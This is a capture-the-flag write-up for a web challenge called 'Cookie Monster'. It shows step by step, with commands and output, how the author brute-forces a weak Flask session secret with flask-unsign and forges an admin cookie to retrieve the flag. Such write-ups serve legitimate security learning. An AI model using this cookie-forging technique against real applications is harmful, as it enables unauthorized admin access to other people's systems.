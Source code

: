 # Cookie Monster (445 points, category: easy)

Nom nom nom, C is for cookie, that's good enough for me

Author: taschmex

http://20.100.130.68:1041

📎 [main.py](main.py)

# Writeup

First I knew the JWT signing secret was a number between 10000 and 99999 so I generated a wordlist for it:

```bash
for i in {10000..99999}; do
  echo $i
done > numbers.txt
```

Then I used flask-unsign to bruteforce the secret:

```bash
└─$ flask-unsign -u -c "eyJjbGlja3MiOjAsImlzQWRtaW4iOmZhbHNlfQ.ZTrlUw.jd4NGDwM_cqI8YMJUSNtKUaIyEk" -w numbers.txt  --no-literal-eval
[*] Session decodes to: {'clicks': 0, 'isAdmin': False}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 18688 attempts
b'28687'
```

Then I used flask-unsign to sign a new cookie with the secret:

```bash
└─$ flask-unsign --sign --cookie "{'isAdmin': True}" --secret "28687" --no-literal-eval
eyJpc0FkbWluIjp0cnVlfQ.ZTrlnQ.oNvQn5a3pF1BCEtr5n-I9jB__s4
```

Updated the cookie in my browser and loaded the `/flag` endpoint and got the flag

# Flag

```
wack{n0m_n0m_th4t_w45_345y}
```